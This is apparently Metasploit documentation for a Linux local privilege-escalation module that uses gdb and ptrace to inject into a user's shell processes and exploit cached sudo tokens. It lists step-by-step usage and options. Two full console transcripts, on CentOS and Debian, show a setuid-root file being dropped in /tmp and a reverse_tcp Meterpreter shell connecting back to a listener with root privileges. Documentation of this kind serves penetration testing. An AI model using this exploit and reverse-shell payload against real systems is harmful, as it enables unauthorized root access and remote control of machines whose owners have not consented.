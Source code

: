 ## Description

  This module attempts to gain root privileges by blindly injecting into
  the session user's running shell processes and executing commands by
  calling `system()`, in the hope that the process has valid cached sudo
  tokens with root privileges.

  The system must have gdb installed and permit ptrace.


## Vulnerable Application

  This module has been tested successfully on:

  * Debian 9.8 (x64)
  * CentOS 7.4.1708 (x64)


## Verification Steps

  1. Start `msfconsole`
  2. Get a session
  3. `use exploit/linux/local/ptrace_sudo_token_priv_esc`
  4. `set SESSION <SESSION>`
  5. `check`
  6. `run`
  7. You should get a new *root* session


## Options

### SESSION

  Which session to use, which can be viewed with `sessions`

### TIMEOUT

  Process injection timeout (seconds) (default: `30`)

### WritableDir

  A writable directory file system path. (default: `/tmp`)


## Scenarios

### CentOS 7.4.1708 (x64)
  
  ```
  msf > use exploit/linux/local/ptrace_sudo_token_priv_esc 
  msf exploit(linux/local/ptrace_sudo_token_priv_esc) > set session 1
  session => 1
  msf exploit(linux/local/ptrace_sudo_token_priv_esc) > set payload linux/x64/meterpreter/reverse_tcp 
  payload => linux/x64/meterpreter/reverse_tcp
  msf exploit(linux/local/ptrace_sudo_token_priv_esc) > set lhost 172.16.191.165
  lhost => 172.16.191.165
  msf exploit(linux/local/ptrace_sudo_token_priv_esc) > set verbose true
  verbose => true
  msf exploit(linux/local/ptrace_sudo_token_priv_esc) > run

  [*] Started reverse TCP handler on 172.16.191.165:4444 
  [+] YAMA ptrace scope is not restrictive
  [+] SELinux deny_ptrace is disabled
  [+] sudo is installed
  [+] gdb is installed
  [*] Searching for shell processes ...
  [*] Found 3 running shell processes
  [*] 2343, 2483, 2958
  [*] Writing '/tmp/.ka44kFCm8XyMEZ' (329 bytes) ...
  [*] Injecting into process 2343 ...
  [*] Injecting into process 2483 ...
  [*] Injecting into process 2958 ...
  [+] /tmp/.ka44kFCm8XyMEZ setuid root successfully
  [*] Executing payload...
  [*] Transmitting intermediate stager...(126 bytes)
  [*] Sending stage (3021284 bytes) to 172.16.191.141

  [*] Meterpreter session 2 opened (172.16.191.165:4444 -> 172.16.191.141:53462) at 2019-08-10 02:49:48 -0400
  [-] Failed to delete /tmp/.ka44kFCm8XyMEZ: stdapi_fs_delete_file: Operation failed: 1

  meterpreter > getuid
  Server username: uid=0, gid=0, euid=0, egid=0
  meterpreter > sysinfo
  Computer     : centos-7-1708.localdomain
  OS           : CentOS 7.4.1708 (Linux 3.10.0-693.el7.x86_64)
  Architecture : x64
  BuildTuple   : x86_64-linux-musl
  Meterpreter  : x64/linux
  meterpreter > 
  ```

### Debian 9.8 (x64)

  ```
  msf > use exploit/linux/local/ptrace_sudo_token_priv_esc 
  msf exploit(linux/local/ptrace_sudo_token_priv_esc) > set session 1
  session => 1
  msf exploit(linux/local/ptrace_sudo_token_priv_esc) > set payload linux/x64/meterpreter/reverse_tcp 
  payload => linux/x64/meterpreter/reverse_tcp
  msf exploit(linux/local/ptrace_sudo_token_priv_esc) > set lhost 172.16.191.165
  lhost => 172.16.191.165
  msf exploit(linux/local/ptrace_sudo_token_priv_esc) > set verbose true
  verbose => true
  msf exploit(linux/local/ptrace_sudo_token_priv_esc) > run

  [*] Started reverse TCP handler on 172.16.191.165:4444 
  [+] YAMA ptrace scope is not restrictive
  [+] sudo is installed
  [+] gdb is installed
  [*] Searching for shell processes ...
  [*] Found 5 running shell processes
  [*] 661, 891, 23499, 23518, 23541
  [*] Writing '/tmp/.Dpq90j6vOk' (329 bytes) ...
  [*] Injecting into process 661 ...
  [*] Injecting into process 891 ...
  [*] Injecting into process 23499 ...
  [*] Injecting into process 23518 ...
  [+] /tmp/.Dpq90j6vOk setuid root successfully
  [*] Executing payload...
  [*] Transmitting intermediate stager...(126 bytes)
  [*] Sending stage (3021284 bytes) to 172.16.191.232

  [*] Meterpreter session 2 opened (172.16.191.165:4444 -> 172.16.191.232:50744) at 2019-08-10 02:54:34 -0400
  [-] Failed to delete /tmp/.Dpq90j6vOk: stdapi_fs_delete_file: Operation failed: 1

  meterpreter > getuid
  Server username: uid=0, gid=0, euid=0, egid=0
  meterpreter > sysinfo
  Computer     : debian-9-8-x64.local
  OS           : Debian 9.8 (Linux 4.9.0-8-amd64)
  Architecture : x64
  BuildTuple   : x86_64-linux-musl
  Meterpreter  : x64/linux
  meterpreter > 
  ```

